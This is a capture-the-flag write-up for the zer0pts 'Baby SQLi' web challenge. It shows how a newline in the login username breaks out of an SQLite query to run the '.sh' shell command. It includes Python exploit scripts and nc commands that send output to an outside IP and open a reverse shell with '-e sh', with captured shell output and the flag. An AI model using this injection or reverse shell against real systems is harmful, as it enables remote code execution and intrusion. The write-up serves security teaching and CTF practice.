## (Web) Baby SQLi [170 pts]

> Baby SQLi challenge is bypass of waf and using shell command.

First, You can using `.system/.shell/.sh` command and execute shell command in SQLite3

```
// SQLite3 CLI
sqlite> .sh id|nc 141.164.52.207 2

// Terminal
root@py:~# nc -lp 2
uid=0(root) gid=0(root) groups=0(root)
```
As above, you can see in sqlite3 executes a shell command using the `.sh` command.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result
```
Looking at the source code, you can line jump using the `\n` character because using the `communicate()` in `subporcess.Popen()` in `sqlite3_query()`.

```python
@app.route('/login', methods=['post'])
def auth():
    username = flask.request.form.get('username', default='', type=str)
    password = flask.request.form.get('password', default='', type=str)
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))

    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    if result:
        flask.session['name'] = username
    else:
        flask.session['msg'] = 'Invalid Credential'
    return flask.redirect(flask.url_for('home'))
```
And looking at the source code in login logic, you can see that `username`/`password` value is input, the length is verified, and it is put in query statement and at this point, you can see that the `username` value is escaped. but, you don't worry because treats escape characters as simple string is sqlite3.

```
SELECT * FROM users where username = "\" or 1=1 -- " and password = "pocas";
```
In other words, It doensn't matter if it escaped as above.

```
SELECT * FROM users where username = "\";
.sh id|nc 141.164.52.207 2;
and password = "pocas";
```
So, you can use shell command by doing line jumps as above and using the .sh command.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh id|nc 2376348879 2\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lp 2
uid=1000(app) gid=1000(app)
root@py:~#
```
If you write the exploit code as above, close `SELECT` statemnt and in the line immediately underneath execute `.sh` command.

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.sh nc 2376348879 2 -e sh\n'
data = {"username": username, "password": "pocas"}
requests.post(url+"/login", data)
```
```
root@py:~# nc -lvnp 2
Listening on 0.0.0.0 2
Connection received on 165.227.180.221 38761
id
uid=1000(app) gid=1000(app)
cat templates/index.html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    </head>

    <body>
        <h1>Welcome, {{name}}!</h1>
        {% if name == 'admin' %}
        <p>zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}</p>
        {% else %}
        <p>No flag for you :(</p>
        {% endif %}
    </body>
</html>
```
Final, I pass the shell using `e` option about `nc` and read `index.html` and saw the flag.

```
zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}
```

---

